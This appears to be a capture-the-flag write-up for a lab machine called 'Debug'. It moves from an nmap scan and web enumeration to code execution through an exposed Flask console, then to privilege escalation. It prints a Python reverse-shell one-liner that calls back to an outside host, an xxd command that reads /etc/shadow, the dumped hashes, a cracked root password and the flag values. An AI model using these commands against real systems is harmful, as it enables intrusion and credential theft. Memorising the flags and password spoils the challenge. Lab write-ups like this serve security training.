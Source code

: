 # DEBUG

![](../.gitbook/assets/e2be2e1fb74042879bd0f419719d714f.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:84:e4:df:52:83:55:3f:90:43:d1:8e:4a:18:8b:0c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCjw3/SGfDr8T9JpbIIbsr6rgM9gT4oq2jRJRb05jaME/m7wKYIdAWN49wmGJfyTyc83G1JrW0M7nbCuM9mlH39C13DmvEqtdSKQdRzyMSXnCXgtIXqphdOJ7R72XIHK9rGPdvyo4xQr8kq1Uv40IwDa0IE/0tXHXy5jXg5QWf8sXN0FBdao179R4jeyOBXvjJ/fE4YHekbOsU6ENnlwQlrv1tV7nKV6nXogTYcdoa97fLXMVEhS4qgbWem4NUsQyJHPXpT1+qIivcR0/aADOwkT/d5fJt/uRa9QoSV2sk65O8lanjhmLt5US3/gYINR/NZMm0EgJD29OHcIkIvYgLL
|   256 f6:1a:89:b2:ca:57:7a:47:be:88:9b:3e:8f:e8:52:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF2xhlajvKFWIWjnZmCQnslIpFio0Ik/lDe/K082uY0LmIkidZeAmqNqpRjmJV8tFXBlGBk334qtlyUj07ajhw4=
|   256 01:f2:94:0a:d3:54:52:15:87:ae:73:bc:4d:70:6e:90 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBtSouJqn96zP914zke1cXif+LCjUPjZnKYFa43ewVEP
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Future Design
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/7b2f463bd4f243059e5cd464dd1b5a52.png)

![](../.gitbook/assets/52932c056ed347d28891611b5dcf2a54.png)

### GOBUSTER

![](../.gitbook/assets/b6cbb8675000487c958021b69ec08a19.png)

### /console

![](../.gitbook/assets/2eb6b9d385a14bc88be239d190524968.png)

![](../.gitbook/assets/22b053c863fd41be8bbb58641785a88e.png)

## EXPLOIT

### THIS EXPLOIT DID NOT WORK

![](../.gitbook/assets/336ff2105d4b4c9eb9fa4ad69d7db929.png)

![](../.gitbook/assets/b30586c9515942c08faaa52a02609014.png)

### MANUAL WITH BURPSUITE

It seems that we need to send twice the same command \(First give us a not found error, and the second works\). The Server is running Flask so we can send this reverse shell:

```text
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.63",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![](../.gitbook/assets/a997742f99ec48ec9d9089c1ed401c11.png)

![](../.gitbook/assets/9629c68d672d4e86ac74b40589c70095.png)

### IMPROVE SHELL

![](../.gitbook/assets/9629c68d672d4e86ac74b40589c70095%20%281%29.png)

## MACHINE ENUMERATION

### LINPEAS

* [https://gtfobins.github.io/gtfobins/xxd/\#suid](https://gtfobins.github.io/gtfobins/xxd/#suid)

![](../.gitbook/assets/b9ebd38468474fbcabd36cb709029bf0.png)

## PRIVESC

```text
/usr/bin/xxd "/etc/shadow" | /usr/bin/xxd -r
```

![](../.gitbook/assets/1ecd8679ba384084b1f55e0045309a9c.png)

```text
root:$6$YbP4.h/m$HTWC5ubw1dJK1Ed11RExV/55T0JlRnjtPcCyQEugG470lfZG2Eo8Id2ZeEb2vBnHRTVZls2kZNnaC7GZRCjwf/:18358:0:99999:7:::
megan:$6$agnTjgTe$wyLY7h/29DB/5ZfcArQYPBpMYxfsvJH5FoPKA9zufGOte5OLZbFUnA10xapEsPkDm7monYX9q1y5cFZTOKRPF.:18359:0:99999:7:::
```

## CRACK HASHES USING HASHCAT

* For this i use always my windows computer to take advantage of the GPU.
* Because user Meg have sudo, i will try to crack both hashes.
* [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```text
HASH-MODE IS 1800
```

![](../.gitbook/assets/9c8e5772bd0a4163afa62c9e784f183f.png)

![](../.gitbook/assets/920f875e6a354699859e39028902b612.png)

```text
root:shanghai
```

![](../.gitbook/assets/c975832b59ee40c9aa0a54e9c4e9ed69.png)

## FLAGS

### USER

```text
ddaa8107cb89153f1ed2e53bca360e55
```

### ROOT

```text
8536837705419b39ca46f3d8c9669368
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

